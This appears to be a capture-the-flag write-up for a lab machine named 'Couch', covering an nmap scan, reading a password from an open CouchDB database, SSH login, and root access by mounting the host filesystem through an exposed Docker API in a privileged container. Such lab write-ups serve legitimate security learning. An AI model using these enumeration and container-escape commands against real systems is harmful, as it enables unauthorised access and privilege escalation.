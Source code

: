 # Couch - Linux - Easy

**IP may change over the document**

---
## Enumeration

### Nmap: `nmap -sV -p- -T4 -oN all-port-scan 10.10.178.155 -v`

```bash
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
5984/tcp  open     http        CouchDB httpd 1.6.1 (Erlang OTP/18)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Manual Enumeration on port 5984

Just using browser to visit the page we can see the following:

```json
{"couchdb":"Welcome","uuid":"ef680bb740692240059420b2c17db8f3","version":"1.6.1","vendor":{"version":"16.04","name":"Ubuntu"}}
```

In order to visit web admin tool we gotta visit *`_utils`*

```bash
To load Futon in your browser, visit:
http://127.0.0.1:5984/_utils/
```
[Source](https://guide.couchdb.org/draft/tour.html)

In order to list all databases we need to vist *`_all_dbs`*

```bash
Next, we can get a list of databases:
curl -X GET http://127.0.0.1:5984/_all_dbs
```
[Source](https://guide.couchdb.org/draft/tour.html)

After some fiddling around with the web-tool we can see the following `atena:t4qfzcc4qN##` found in `<IP>:5984/_utils/document.html?secret/a1320dd69fb4570d0a3d26df4e000be7`


---
## User.txt

Using `atena:t4qfzcc4qN##` as creds to ssh logs us in the machine as user atena. Just cat the *user.txt* file to get the user flag

---
## Root.txt

Running [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) on the system to get more info

LinPEAS reports that `runc` and `ctr` are installed meaning we might have a chance at mounting `/root` dir to container image.

Let's try.... Did not work.

Let's see we if there is something inside `.bash_history` file. It seems we have docker installed and it's configured to run in privileged mode.

```bash
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

Just altering the mounting path we can easily get inside `/root` dir

```bash
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/root alpine
```

Just move to `/root/root` dir inside the docker image and cat out the *root.txt* file

